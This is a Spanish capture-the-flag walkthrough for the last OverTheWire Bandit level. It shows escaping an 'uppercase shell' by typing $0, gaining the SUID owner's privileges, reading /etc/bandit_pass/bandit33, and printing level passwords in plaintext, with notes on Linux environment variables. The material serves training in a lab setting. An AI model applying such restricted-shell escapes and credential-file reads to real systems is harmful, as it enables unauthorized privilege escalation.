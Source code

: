 ## Objetivo 

Después de todo esto, es hora de otro escape. ¡Buena suerte!

## Datos de acceso al nivel

user bandit32
pass rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
## Solucion


```

WELCOME TO THE UPPERCASE SHELL
>> $0
$ pwd
/home/bandit32
$ id
uid=11033(bandit33) gid=11032(bandit32) groups=11032(bandit32)
$ cat /etc/bandit_pass/bandit33                               
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$ 

///////////////////////////////

WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: Permission denied
>> $0
$ ls
uppershell
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Oct  5 06:19 .
drwxr-xr-x 70 root     root      4096 Oct  5 06:20 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Oct  5 06:19 uppershell
$ whoiam
sh: 3: whoiam: Permission denied
$ whoami
bandit33
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$ 



bandit33@bandit:~$ ls
README.txt
bandit33@bandit:~$ cat README.txt
Congratulations on solving the last level of this game!

At this moment, there are no more levels to play in this game. However, we are constantly working
on new levels and will most likely expand this game with more levels soon.
Keep an eye out for an announcement on our usual communication channels!
In the meantime, you could play some of our other wargames.

If you have an idea for an awesome new level, please let us know!
bandit33@bandit:~$ 

```

## Notas adicionales

Linux tiene variables llamadas variables locales (válidas en el shell actual), variables de shell (configuradas por el shell) y variables de entorno (válidas en todo el sistema). Estas variables tienen sus nombres sólo en mayúsculas. Se definen escribiendo VAR_NAME=var_value en la línea de comando. Para ver el contenido de una variable, puedes escribir echo $VAR_NAME.

Para imprimir todas las variables de entorno, puede utilizar printenv.

Algunos comunes que es bueno saber son:

     TERM - emulación de terminal actual
     HOME: la ruta al directorio de inicio del usuario                 actualmente conectado
     LANG: configuración regional actual
     PATH: lista de directorios que se buscarán al ejecutar            comandos
     PWD: nombre de ruta del directorio de trabajo actual
     SHELL/0 - la ruta del shell del usuario actual
     USER: usuario actualmente conectado


Lo único que está en mayúsculas en Linux son las variables. Específicamente, la variable $0 tiene una referencia a un shell. Puedes ver esto con echo $0 en tu máquina

Podemos ver que el archivo 'uppershell' se ejecuta como bandit33 (propiedad del usuario 'bandit33' y SUID). Al comprobar esto, podemos ver que en realidad somos 'bandit33' y por lo tanto, podemos leer el archivo de contraseña:

## Referencias 


https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-linux-es
